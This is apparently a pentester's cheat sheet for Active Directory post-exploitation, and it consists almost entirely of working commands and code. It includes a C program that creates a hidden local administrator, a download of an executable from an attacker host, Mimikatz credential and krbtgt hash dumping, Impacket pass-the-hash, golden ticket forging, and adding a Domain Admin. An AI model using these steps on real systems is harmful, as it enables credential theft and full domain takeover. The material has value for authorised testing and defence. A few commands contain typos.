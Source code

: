 # Active Directory Post Exploitation

## Active Directory Post Exploitation

### Access Users Remotely

#### Xfreerdp

```
xfreerdp /u:mike /p:P@ssword /d:homeserver.local /v:192.168.56.13 /w:1920 /h:1080 /fonts /smart-sizing
```

### Gathering Info

#### Cmd

```
# Get current user's detail
whoami

# View Groups
whoami /groups

# View all users in the domain
net user
```

### Privilege Escalation

#### Powershell

**View Running Services**

```
 Get-CimInstance -ClassName win32_service | Select Name,State,PathName,StartName | Where-Object {$_.State -like 'Running'}

```

**View Start Mode of Services**

```
Get-CimInstance -ClassName Win32_Service -Filter "Name='<service name>'" | Select-Object StartMode
```

**Check Permissions using ICACLS**

```
icacls "File Name/Path"
```

#### C Program

**Adduser.c**

```
[[include]]<stdio.h>
[[include]]<stdlib.h>

int main()
{

        int i;
        
        i = system("net user peter P@ssword /add");
        i = system("net localgroup administrators peter /add");

        return 0;

}

```

**Compile**

```
x86_64-w64-mingw32-gcc exploit.c -o adduser.exe

```

#### Share the Exe

```
# Attacker Machine
python3 -m http.server

# Victim Machine
iwr -Uri http://10.10.10.10/<file.exe> -OutFile <file.exe>
```

### Stealing Credentials

#### Mimikatz

```
# Start mimikatz
.\mimikatz.exe

# Dump hahses
privilege::debug

sekurlsa::logonpasswords
```

#### Impacket

**Wmiexec**

```
impacket-wmiexec -hashes :<NT Hash> domain/user@<IP>

# Vew powershell history
cd C:\users\jack\appdata\roaming\microsoft\microsoft\windows\powershell\psreadline

```

**PsExec**

```
# Accessing the domain controller
.\PSExec64.exe \\dc01 cmd.exe
```

### Forging Golden Tickets

#### Get krbtgt Hash and Domain SID

```
.\mimikatz.exe

privilege::debug

# Dump Hashes
lsadump::lsa /patch

```

#### Create Golden Ticket

```
.\mimiktaz.exe

kerberos::purge

# Creating Ticket

kerberos::golden /user:<any user> /domain:homeserver.local /sid:<domain sid> /krbtgt:<krbtgt hash> /ticket:homeserver_golden

```

#### Using Golden Ticket

**Powershell**

```
.\mimikatz.exe

kerberos::ptt homeserver_golden

misc::cmd

```

**PsExec**

```
PsExec.exe \\dc01 cmd.exe

# Add a user to domain
net user mike P@ssword /add /domain 

# Add a user to domain group
net group "domain admins" mike /add /domain

```

***

## REFERENCES

* https://www.mankier.com/1/xfreerdp
* https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/icacls
* https://en.wikipedia.org/wiki/Local\_Security\_Authority\_Subsystem\_Service
* https://www.netwrix.com/how\_golden\_ticket\_attack\_works.html
* https://docs.metasploit.com/docs/pentesting/active-directory/kerberos/forge\_ticket.html
* https://www.youtube.com/watch?v=f8jGhLwCa28\&pp=ygUgd2luZG93cyBwZW50ZXN0IGFjdGl2ZSBkaXJlY3Rvcnk%3D
* https://www.hackingarticles.in/understanding-guide-mimikatz/
* https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/golden-ticket
